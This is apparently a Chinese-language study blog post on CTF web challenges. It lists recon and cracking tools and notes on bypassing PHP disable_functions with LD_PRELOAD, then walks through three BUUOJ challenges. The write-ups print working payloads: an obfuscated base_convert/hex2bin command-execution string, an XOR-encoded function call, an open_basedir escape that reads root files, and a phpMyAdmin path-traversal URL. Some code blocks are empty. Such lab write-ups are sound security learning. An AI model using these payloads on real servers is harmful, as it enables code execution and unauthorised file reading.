


前言
今天的学习内容巨多，也不知道一下是否能消化完。
CTF做题思路与工具使用
CTF题型
1、黑盒测试：考察基础漏 洞理解，与 利用。
2、白盒测试：主要考察代码审计 能力， 可能会结合文件泄 露，黑盒测试。
3、CVE、漏洞复现：考察信息搜 集能力，与 CVE复现能力。
CTF工具使用
黑盒——信息搜集
dirsearch
一个简单的命令行工具，旨在暴力破解网站中的目录和文件。
1 | python3 dirsearch.py –u url –e * -w /home/dic.txt |
1 | • 常用参数： |
CTF常用字典
• https://github.com/TheKingOfDuck/fuzzDicts
• https://github.com/ev0A/ArbitraryFileReadList
文件泄露利用工具
• git文件泄露利用工具 GitHack
https://github.com/lijiejie/GitHack
• DS_store文件泄露利用工具 ds_store_exp
https://github.com/lijiejie/ds_store_exp
• 各种版本控制系统文件泄露工具 dvcs-ripper
https://github.com/kost/dvcs-ripper
1 | • rip-git.pl -v -u http://www.example.com/.git/ |
• 可能存在的其它泄露
1 | • www.rar |
黑盒——漏洞攻击篇
• 爆破工具——burpsuite
• hash长度扩展攻击——HashPump
https://www.cnblogs.com/pcat/p/5478509.html
• flask_session伪造——flask-session-cookie
https://github.com/noraj/flask-session-cookie-manager
flask中session是存储在客户端cookie中的，也就是存储在客户端。如果知道了session的秘钥，我们可 以修改session达到伪造身份、会话的效果。
• Jwt爆破工具——c-jwt-cracker
https://github.com/brendan-rius/c-jwt-cracker
• php-mt_rand()随机数种子爆破——php_mt_seed
https://www.openwall.com/php_mt_seed/
php中的mt_rand()随机数可以通过已知的前几位随机数计算出随机数种子，从而预测所有随机数
RCE深入学习
无数字字母RCE
函数的动态调用
(待整理)
字符的取反
(待整理)
寻找可利用函数
绕过disable_functions
利用LD_PRELOAD
• 根据文档介绍，如果使用LD_PRELOAD环境变量指定了一个共享库或共享对象，那么这个 共享对象会在其他对象加载前被加载(优先级最高)
• php中mail()这个方法会调用底层的getpid()
• getpid()可以被劫持
• 修改getpid()，会执行系统命令。
• 绕过disable_functions
1 |
|
1 |
|
工具
https://github.com/mm0r1/exploits
做题
2019 Love Math
1 |
|
又是PHP各种绕过题。
第一、长度不是超过80
第二、不能包含
1 | [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'] |
第三、只能使用关键字中的函数
第四、只能包含白名单的字符串
1 | '/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/' |
解题涉及到的函数
base_convert
base_convert(number,frombase,tobase);
| 参数 | 描述 |
|---|---|
| number | 必需。规定要转换的数。 |
| frombase | 必需。规定数字原来的进制。介于 2 和 36 之间（包括 2 和 36）。高于十进制的数字用字母 a-z 表示，例如 a 表示 10，b 表示 11 以及 z 表示 35。 |
| tobase | 必需。规定要转换的进制。介于 2 和 36 之间（包括 2 和 36）。高于十进制的数字用字母 a-z 表示，例如 a 表示 10，b 表示 11 以及 z 表示 35。 |
也就是说base_convert可以表示[0-9a-z]这些数。但是只能通过这个函数做点文章了。
hex2bin
hex2bin(string)
将16进制数转换成ascii。
只有用这个，才能绕过。函数限制。
dechex
把十进制转换为十六进制。为了配合hex2bin使用。
这三个就是关键函数。
由于有长度限制，要找最小可用的关键字
得到如下playload
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){sin})&pi=system&sin=ls /
1 | base_convert(37907361743,10,36) => "hex2bin" |
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){sin})&pi=system&sin=cat /flag
得到flag
[SUCTF 2019] EasyWeb
1 |
|
绕过函数触发限制
1 | preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) |
这里过滤了可见字符。所以可以用异或绕过。
由于有长度限制我们只能做一个GET执行get_the_flag。
1 | ?_=${%80%80%80%80^%df%c7%c5%d4}{%d4}();&%d4=get_the_flag |
绕过文件上传限制
文件上传首先限定了文件名，不能上传ph开头的扩展名。然后限制了文件内容不能包含<?，
这样一是不能直接上传以php为扩展名的文件，二是不能上传含有<?的文本文件。三是他会判断上传的是否为图片文件。
这里是没有限止上传htaccess文件的。所以可以使用htaccess突破上传。
然后使用utf-16突破<?文件内容限制。
最后对文件添加伪图片信息头。
构造语句
这题限制了目录所以用如下办法绕过限制
1 | ini_set("open_basedir","..");chdir("..");chdir("..");chdir("..");chdir("..");chdir("..");ini_set("open_basedir","/");var_dump(scandir("/")); |
看到根目录下有个THis_Is_tHe_F14g,把他显示出来
1 | ini_set("open_basedir","..");chdir("..");chdir("..");chdir("..");chdir("..");chdir("..");ini_set("open_basedir","/");readfile("/THis_Is_tHe_F14g"); |
这里记录一下，可以用的函数有highlight_file,file_get_contents,readfile
拿到flag

我有一个数据库
一个空页面啥也没有。拿出dirsearch扫描一下
1 | python3 dirsearch.py -u http://1a6d0fd6-6ea5-43b2-bb83-7b2dfdf5fb2d.node3.buuoj.cn/ -e * -s 0.1 -t 2 |

扫到phpmyadmin，网上查了一下。phpmyadmin任意文件包含漏洞。直接利用一下。
1 | http://1a6d0fd6-6ea5-43b2-bb83-7b2dfdf5fb2d.node3.buuoj.cn/phpmyadmin/?target=db_sql.php%253f/../../../../../../../../flag |
这里的%253f是通过两次URL编码的?我测试直接使用?也能成功。
不知道为什么要转几次。